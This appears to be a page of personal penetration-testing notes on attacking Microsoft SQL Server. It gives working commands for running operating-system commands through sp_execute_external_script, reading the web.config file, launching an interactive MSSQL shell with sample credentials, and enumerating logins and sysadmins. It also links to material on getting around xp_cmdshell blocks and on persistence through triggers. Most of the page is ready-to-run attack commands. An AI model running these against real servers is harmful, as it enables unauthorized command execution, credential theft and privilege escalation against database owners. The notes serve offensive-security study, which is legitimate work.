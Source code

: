 {% code overflow="wrap" fullWidth="true" %}
```bash
https://hacktricks.boitatech.com.br/pentesting/pentesting-mssql-microsoft-sql-server#read-files-executing-scripts-python-and-r

#Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```
{% endcode %}

## Interactive shell

[https://alamot.github.io/mssql\_shell/](https://alamot.github.io/mssql_shell/)

```bash
# On my VM w/ some modifications as arguments
└─$ mssql_shell.py --server $IP --username tester2 --password 'Password1@'
```

## xp\_cmdshell blocked

[https://www.mssqltips.com/sqlservertip/2987/can-i-stop-a-system-admin-from-enabling-sql-server-xpcmdshell/](https://www.mssqltips.com/sqlservertip/2987/can-i-stop-a-system-admin-from-enabling-sql-server-xpcmdshell/)

[https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/#triggerremoval](https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/#triggerremoval)

## Manual SQL Server Queries

{% code overflow="wrap" %}
```bash
# Query Current User & determine if the user is a sysadmin
select suser_sname()
select system_user
# Change database
SQL> use customdb
select is_srvrolemember('sysadmin')
# Current Role
Select user
# Current DB
select db_name()
# List all tables
select table_name from information_schema.tables
# List all databases
select name from master..sysdatabases
# All Logins on Server
Select * from sys.server_principals where type_desc != 'SERVER_ROLE'
# All Database Users for a Database
Select * from sys.database_principals where type_desc != 'database_role';
# List All Sysadmins
SELECT name,type_desc,is_disabled FROM sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1
```